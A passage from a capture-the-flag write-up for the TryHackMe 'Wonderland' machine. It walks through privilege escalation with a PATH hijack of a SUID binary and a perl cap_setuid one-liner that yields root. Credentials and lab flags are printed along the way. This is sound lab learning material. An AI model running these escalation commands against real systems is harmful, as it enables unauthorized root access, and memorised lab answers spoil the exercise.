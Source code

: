 ![screenshot](https://github.com/divu050704/assets-holder/raw/main/tryhackme-screenshots/14.png)

- Created a shell file named date with our payload in /tmp directory.

```shell
#!/bin/bash
/bin/bash -p
```
- Added `/tmp` to `PATH`, and give the execution rights

```console
rabbit@wonderland:/tmp$ export PATH="/tmp:$PATH"
rabbit@wonderland:/tmp$ chmod +x date
```
- Execute the SUID, and got the shell as hatter

```console
rabbit@wonderland:/tmp$ /home/rabbit/teaParty
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by hatter@wonderland:/tmp$
```

## Privilege Escalation(root)
- Checked for capabilities and found `perl` as `cap_setuid_ep`

```console
rabbit@wonderland:~$ getcap -r / 2>/dev/null
/usr/bin/perl5.26.1 = cap_setuid+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/perl = cap_setuid+ep
```
- Checked `gtfobins`, and found an exploit

```console
hatter@wonderland:/home/hatter$ perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/bash";'
bash: /usr/bin/perl: Permission denied
```

- That might be because we don't have complete rights on ssh as `alice`, got credential in `/home/hatter/password.txt`

```console
hatter@wonderland:/home/hatter$ ls
password.txt
hatter@wonderland:/home/hatter$ cat password.txt
WhyIsARavenLikeAWritingDesk?

```
- Now executed the exploit and we are root

```console
hatter@wonderland:~$ perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/bash";'
root@wonderland:~# whoami
root
```

- Got the flag

```console
root@wonderland:~# cat /home/alice/root.txt
thm{Twinkle, twinkle, little bat! How I wonder what you’re at!}

```
